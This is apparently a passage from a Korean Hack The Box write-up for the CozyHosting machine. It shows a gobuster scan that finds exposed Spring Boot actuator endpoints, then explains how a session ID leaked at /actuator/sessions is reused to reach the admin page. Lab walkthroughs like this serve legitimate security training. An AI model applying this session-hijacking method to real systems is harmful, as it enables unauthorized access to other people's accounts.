```bash
gobuster dir -u http://cozyhosting.htb/ -w /root/Hack_The_Box/CozyHosting/Java-Spring-Boot.txt -x php,txt 

/actuator             (Status: 200) [Size: 634]
/actuator/env         (Status: 200) [Size: 4957]
/actuator/env/home    (Status: 200) [Size: 487]
/actuator/env/lang    (Status: 200) [Size: 487]
/actuator/beans       (Status: 200) [Size: 127224]
/actuator/env/path    (Status: 200) [Size: 487]
/actuator/health      (Status: 200) [Size: 15]
/actuator/mappings    (Status: 200) [Size: 9938]
/actuator/sessions    (Status: 200) [Size: 48]
```

http://cozyhosting.htb/actuator/sessions에 접속하면   

{"DDB750C9EDAA36E27280D0A74C7C06C7":"kanderson"}해당 세션정보를 볼 수 있다  

![alt text](img/image2.png)
해당세션으로 http://cozyhosting.htb/admin에 접속하면 어드민 페이지로 접속을 할 수 있다  

